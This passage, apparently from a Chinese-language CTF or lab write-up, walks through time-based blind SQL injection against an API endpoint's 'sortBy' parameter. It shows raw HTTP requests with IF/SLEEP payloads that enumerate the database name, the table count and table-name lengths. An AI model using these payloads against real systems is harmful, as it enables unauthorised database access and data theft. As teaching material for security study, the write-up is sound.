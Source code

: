 从结果可以看出1-9 的码为

```
119 101 98 97 112 112 95 100 98    数据库名称是webapp_db
```

![image-20250904005244927](images/image-20250904005244927.png)



#### 现在看 *webapp_db* 数据库有几个表

```
POST /api/developer_utils/sorted_query HTTP/1.1
Host: 113.45.189.144:5000
User-Agent: Burp
Accept: application/json
Content-Type: application/json
Origin: http://113.45.189.144:5000
Referer: http://113.45.189.144:5000/
Connection: close
Content-Length: 140

{"query":"%","sortBy":"name,IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema='webapp_db')=3,SLEEP(5),1)","order":"asc"}
```

#### 确定表有三个

```
POST /api/developer_utils/sorted_query HTTP/1.1
Host: 113.45.189.144:5000
User-Agent: Burp
Accept: application/json
Content-Type: application/json
Origin: http://113.45.189.144:5000
Referer: http://113.45.189.144:5000/
Connection: close
Content-Length: 160

{"query":"%","sortBy":"name,IF(LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema='webapp_db' LIMIT 0,1))=1,SLEEP(5),1)","order":"asc"}
```
